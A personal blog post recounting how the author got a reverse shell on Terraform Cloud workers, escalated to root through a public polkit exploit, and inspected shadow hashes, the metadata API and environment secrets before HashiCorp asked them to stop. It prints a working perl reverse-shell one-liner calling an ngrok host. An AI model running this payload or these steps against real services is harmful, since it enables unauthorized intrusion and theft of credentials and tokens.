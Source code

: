 ```yaml
---
id: sorry-hashicorp
previewImageUrl: https://cdn.ruse.tech/imgs/sorry-hashicorp/icon.png
datePosted: 09-29-2022
pinned: false
description: Exploring Terraform Enterprise and getting caught
tags: hacking
      terraform
title: Sorry hashicorp
---
```

# Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way. 

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my personal projects.

Using a remote TFE workspaces comes with many cool features but to me best benefits are state management and CI/CD. Simply connect your repo to TFE and commit to main and you terraform code executes. 

This got me thinking, I am running code on another persons machine....

## The starting mischief 

Okay so we can run code on another machine but where does that get us? 

I started thinking a way I can get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk 
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF. 

The easiest and most simple way is to use an external provider and run bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you worried about opsec please do not do this. 

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. This at this time PolKit had only been out for few day (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on github and we have root.

With root I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistance? 

My main question was, can I access other users runs? 

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am  running on a t3a.small. So ephemeral EC2 hosts...interesting. 

I started to wonder, Are hosts being reused or are they delete after a single run? 

To test this I adding a cron on an instance to callback and waited but, it never did. 

I gave up on this idea and started to look elsewhere.
## Finding the Terraform user hash

Using the root access I check /etc/shadowd and found the password hash for the Terraform users. 

Then I check several instances it was clear the all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user hash is not useful in this case. I still reported it to HashiCorp. 

## Environment Variables 

This is not really an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you are able to run TF code. 

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried using accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught 

To be clear I was doing all this testing in my own environment in an isolated account with good intentions. That being said it likely against the terms and services. I do not recommend, in any case doing unauthorize testing against a service. 

I called it a night and when I woke up, I had a polite email from Hashicorp.

```text
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out, and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc. and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already take to mitigate those attack paths. 

Seriously shout-out to Hashicorp for being so cool. 

At the end of the day no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area and I would have loved to have more time explore the host configurations, it will have to wait for an authorized time. ;)